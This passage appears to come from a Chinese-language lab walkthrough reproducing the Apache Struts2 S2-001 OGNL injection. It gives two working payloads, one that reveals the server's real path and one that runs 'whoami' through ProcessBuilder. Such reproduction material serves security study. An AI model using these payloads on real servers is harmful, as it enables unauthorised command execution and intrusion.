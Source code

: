在输入框中输入如下 OGNL 表达式获取当前站点的真实路径，点击提交，查看如下页面

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

![s2-001-4](images/s2-001-4.png)

在输入框中输入如下 OGNL 表达式执行 `whoami` 命令，点击提交，查看如下页面

```
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```
